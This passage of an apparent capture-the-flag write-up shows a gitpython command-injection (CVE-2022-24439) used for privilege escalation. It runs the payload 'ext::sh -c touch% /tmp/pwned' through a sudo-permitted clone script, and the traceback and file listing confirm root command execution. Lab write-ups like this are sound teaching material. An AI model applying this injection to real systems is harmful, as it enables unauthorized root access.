 ```bash
httpserver

Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.76.213 - - [19/Jun/2024 01:09:09] code 404, message File not found
10.129.76.213 - - [19/Jun/2024 01:09:09] "GET /test/info/refs?service=git-upload-pack HTTP/1.1" 404 -
```

Starting simple I check for gitpython vulnerabilities. [https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858) labels a way to smuggle commands into a python script accepting user input for gitpython. [CVE-2022-24439](https://www.cve.org/CVERecord?id=CVE-2022-24439) is the specific method.

```
'ext::sh -c touch% /tmp/pwned'
```


```bash
prod@editorial:/tmp/.raccoon$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'

Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'

prod@editorial:/tmp/.raccoon$ ls /tmp

pwned
systemd-private-c262a7837fc54dc8b812137b93d07b30-fwupd.service-m4SBz6
systemd-private-c262a7837fc54dc8b812137b93d07b30-ModemManager.service-BOPG1T
systemd-private-c262a7837fc54dc8b812137b93d07b30-systemd-logind.service-A64Qby
systemd-private-c262a7837fc54dc8b812137b93d07b30-systemd-resolved.service-mjPUaI
systemd-private-c262a7837fc54dc8b812137b93d07b30-systemd-timesyncd.service-ozFO0k
systemd-private-c262a7837fc54dc8b812137b93d07b30-upower.service-6X4zaC
vmware-root_797-4257069498
```
